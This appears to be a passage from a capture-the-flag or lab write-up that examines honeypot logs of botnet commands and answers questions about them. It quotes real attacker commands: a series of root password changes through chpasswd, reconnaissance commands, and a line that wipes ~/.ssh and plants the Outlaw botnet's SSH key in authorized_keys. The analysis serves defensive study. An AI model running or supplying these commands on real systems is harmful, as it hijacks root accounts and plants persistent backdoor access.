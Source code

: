 <p>

- https://malwaremily.medium.com/honeypot-logs-a-botnets-search-for-mikrotik-routers-48e69e110e52</p>

<img width="931" height="254" alt="image" src="https://github.com/user-attachments/assets/33eb20b1-778d-417d-9ec6-a19a597a8743" />

<br>
<br>

<p>7.2. What are the commands in the second sample changing? (BotCommands/Sample2.txt)<br>
<code>root password</code></p>

```bash
demo@ip-xx-xxx-xxx-xx:~/BotCommands$ cat Sample2.txt
echo \"root:ZyTROnKtNOB5\"|chpasswd|bash
echo \"root:zXrUYeQRom1F\"|chpasswd|bash
echo \"root:zXkEkfPSWgYK\"|chpasswd|bash
echo \"root:ZW6ERACumXAi\"|chpasswd|bash
echo \"root:ZVricgmpalNQ\"|chpasswd|bash
echo \"root:zvMK5KIUoJXN\"|chpasswd|bash
echo \"root:zTQ9UvZjszlp\"|chpasswd|bash
echo \"root:ZtPueNEWiBuJ\"|chpasswd|bash
echo \"root:ZTgx8J14ryr4\"|chpasswd|bash
echo \"root:ZSVzpwnxv1Vw\"|chpasswd|bash
echo \"root:ZsVuhtOpy5GZ\"|chpasswd|bash
echo \"root:zSK4VEwVn2a1\"|chpasswd|bash
echo \"root:zReLZCuFqwQq\"|chpasswd|bash
echo \"root:zqqNt9wDjoY0\"|chpasswd|bash
echo \"root:zp8aWkWSBJpR\"|chpasswd|bash
echo \"root:zOaUrTVAijNT\"|chpasswd|bash
echo \"root:znTmaDamJytL\"|chpasswd|bash
```

<p>7.3. What is the name of the group that runs the botnet in the third sample? (BotCommands/Sample3.txt)<br>
<code>outlaw</code></p>

```bash
demo@ip-xx-xxx-xxx-xx:~/BotCommands$ cat Sample3.txt
which ls
w
uname -m
uname
top
ls -lh $(which ls)
free -m | grep Mem | awk '{print $2 ,$3, $4, $5, $6, $7}'
crontab -l
cat /proc/cpuinfo | grep name | wc -l
cat /proc/cpuinfo | grep name | head -n 1 | awk '{print $4,$5,$6,$7,$8,$9;}'
cat /proc/cpuinfo | grep model | grep name | wc -l
lscpu | grep Model
cd ~ && rm -rf .ssh && mkdir .ssh && echo \"ssh-rsa AAAAB3NzaC1yc2EAAAABJQAA...kX34uAx1RV/75GVOmNx+9EuWOnvNoaJe0QXxziIg9eLBHpgLMuakb5+BgTFB+rKJAw9u9FSTDengvS8hX1kNFS4Mjux0hJOK8rvcEmPecjdySYMb66nylAKGwCEE6WEQHmd1mUPgHwGQ0hWCwsQk13yCGPK5w6hYp5zYkFnvlC8hGmd4Ww+u97k6pfTGTUbJk14ujvcD9iUKQTTWYYjIIu5PmUux5bsZ0R4WFwdIe6+i6rBLAsPKgAySVKPRK+oRw== mdrfckr\">>.ssh/authorized_keys && chmod -R go= ~/.ssh && cd ~
```

